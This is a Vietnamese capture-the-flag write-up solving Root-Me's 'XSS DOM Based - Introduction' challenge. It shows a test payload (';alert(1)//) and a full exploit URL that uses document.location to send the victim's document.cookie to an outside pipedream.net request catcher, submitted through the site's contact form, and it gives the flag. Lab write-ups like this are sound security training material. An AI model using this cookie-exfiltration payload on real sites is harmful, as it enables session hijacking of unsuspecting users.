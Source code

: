 # WRITE UP

## **Challenge:** [XSS DOM Based - Introduction](https://www.root-me.org/en/Challenges/Web-Client/XSS-DOM-Based-Introduction)

Sau khi thử submit, thì ta có thể xem được script của website:

![Text Description automatically generated](./media/image1.png){width="6.5in" height="2.348611111111111in"}

Lúc này, tham số number sẽ đảm nhận nhận input. Ta thử kiểm tra XSS ở ô này bằng payload **';alert(1)//** thì thấy thành công:

![Graphical user interface, text, application Description automatically generated](./media/image2.png){width="6.5in" height="1.01875in"}

Ta sẽ dùng document.location để redirect website đến HTTP Request và payload để DOM based XSS như sau (ta dùng RequestBin tạo từ <https://requestbin.in>):

**\';document.location=%27https://eol9dtzbk9673pb.m.pipedream.net/?cookies=%27%2bdocument.cookie;//**

![Graphical user interface, text, application Description automatically generated](./media/image3.png){width="6.5in" height="0.8375in"}

Website đã chuyển hướng thành công, giờ ta sẽ thực hiện POST lên bằng form bên tag contact:

![Graphical user interface, text, application Description automatically generated](./media/image4.png){width="6.5in" height="1.5597222222222222in"}

Ta thực hiện điền payload bên dưới đến POST lên và đợi cookie được trả về tại RequestBin:

<http://challenge01.root-me.org/web-client/ch32/?number=%27;document.location=%27https://eol9dtzbk9673pb.m.pipedream.net/?cookies=%27%2bdocument.cookie//>

![Graphical user interface, application, Teams Description automatically generated](./media/image5.png){width="6.5in" height="1.6444444444444444in"}

**Flag:** rootme{XSS_D0M_BaSed_InTr0}
